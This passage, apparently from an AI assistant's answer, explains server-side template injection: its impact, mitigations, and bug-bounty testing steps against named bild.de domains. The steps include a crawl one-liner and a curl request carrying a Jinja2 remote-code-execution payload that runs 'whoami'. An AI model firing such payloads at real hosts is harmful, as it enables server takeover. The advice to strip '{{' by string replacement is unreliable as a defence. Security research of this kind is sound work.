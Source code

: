**Impact**:
- **Stored SSTI**: Affects all profile visitors, amplifying damage.
- **Data Breach**: Leaks sensitive files or credentials.
- **Server Takeover**: RCE enables full control.

---

### Mitigation Strategies (General)

- **Avoid Dynamic Templates**:
  - Use static templates (e.g., `render_template` instead of `render_template_string`).
- **Sanitize Input**:
  - Remove template syntax (e.g., `{{`, `${`) using regex:
    ```python
    query = query.replace('{{', '').replace('}}', '')
    ```
- **Enable Auto-Escaping**:
  - Configure engines to escape output (e.g., Twig’s `autoescape`, Jinja2’s `| e`).
- **Restrict Template Features**:
  - Disable dangerous functions (e.g., Freemarker’s `?new()`, Jinja2’s `__subclasses__`).
  - Use sandboxing (e.g., Jinja2’s `Environment` with restricted globals).
- **Content Security Policy (CSP)**:
  - Mitigate XSS escalation:
    ```http
    Content-Security-Policy: script-src 'self'
    ```
- **WAF Configuration**:
  - Block template syntax (e.g., `{{`, `${`) via Cloudflare rules.
- **Secure Development**:
  - Follow OWASP guidelines (A1: Injection).

---

### Testing in Axel Springer’s Bug Bounty Program

To find SSTI on Axel Springer’s domains (`*.bild.de`, `*.welt.de`, etc.):

1. **Identify Input Points**:
   - Crawl for forms, search bars, or profile fields:
     ```bash
     gau bild.de | grep -i "form|search|profile|themes" | httprobe > bild_urls.txt
     ```
   - Focus on `/themes` (per your XSS query).

2. **Inject Payloads**:
   - Test template expressions:
     ```bash
     curl -X GET "https://sportbild.bild.de/themes?q={{7*7}}"
     ```
   - Escalate to RCE:
     ```bash
     curl -X GET "https://sportbild.bild.de/themes?q={{''.__class__.__mro__[1].__subclasses__()[396]('whoami',shell=True,stdout=-1).communicate()[0].decode()}}"
     ```
   - Use Burp Intruder to fuzz inputs.
